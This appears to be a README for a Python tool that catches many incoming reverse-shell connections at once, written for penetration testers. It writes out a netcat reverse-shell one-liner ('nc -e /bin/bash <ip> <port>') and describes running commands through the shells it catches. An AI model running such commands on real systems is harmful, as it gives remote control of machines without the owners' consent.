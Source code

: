 # mrsl
Multi reverse shell/session listener

Simple python script that uses the curses module to present a console based UI for listening for multiple incoming connnections on a defined port. Originally created to listen for multiple reverse shells during pentests where not using metasploit, think listening for multiple ````nc -e /bin/bash <ip> <port>```` connections. It can also be used for just listening for incoming connections on an arbitrary port, for instance listening on port 80 on the internet can be interesting.

Current features:
* Automatic logging of all connections to a file, named ```<IP>--<timestamp>.log```
* Ability to see all active connections and switch between them
* Ability to type data back, i.e. to run commands in reverse shell or return data to HTTP connections


More features are planned, but the initial version was created just to serve a current need.

Feedback and pull requests for bugfixes and features are welcome.
